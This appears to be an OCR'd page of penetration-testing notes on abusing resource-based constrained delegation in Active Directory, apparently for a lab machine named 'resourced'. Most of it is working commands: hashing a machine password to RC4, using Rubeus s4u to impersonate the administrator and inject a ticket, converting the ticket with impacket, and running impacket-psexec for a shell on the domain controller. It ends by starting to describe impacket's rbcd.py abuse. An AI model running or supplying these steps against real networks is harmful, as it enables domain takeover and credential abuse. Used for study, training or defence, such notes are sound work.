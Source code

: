 - Convert the password to rc4 for rubeus :

Get Hash (on Kali)

```python
import hashlib,binascii
hash = hashlib.new('md4', "<new machine password from last step>".encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```

- Impersonate Administrator using Rubeus :

```bash
.\Rubeus.exe s4u /user:napster /rc4:44714c0e1624e71ac5540fd3aa9c6681 /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /nowrap /ptt
```

- Copy the base64(ticket.kirbi) generated from above to kali :

```bash
cat ticket.b64 | base64 -d > ticket.kirbi
```

- Convert .kirbi to .ccache so that it can be used on Linux :

```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
```

- Export it -

```bash
export KRB5CCNAME=`pwd`/ticket.ccache
klist
```

- Get a Shell -

```bash
impacket-psexec -k -no-pass resourced.local/administrator@resourcedc.resourced.local -dc-ip 192.168.114.175
```

---
---

Abuse from Linux -

[RBCD Attack](https://github.com/tothi/rbcd-attack) 

---
---

Abuse using Impacket RBCD :

Impacket rbcd.py will modify the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer with security descriptor of another computer. The following command adds the related security descriptor of the created EVILCOMPUTER to the msDS-AllowedToActOnBehalfOfOtherIdentity property of DC01. This basically means that EVILCOMPUTER can get impersonated service tickets for DC01 using getST.py.
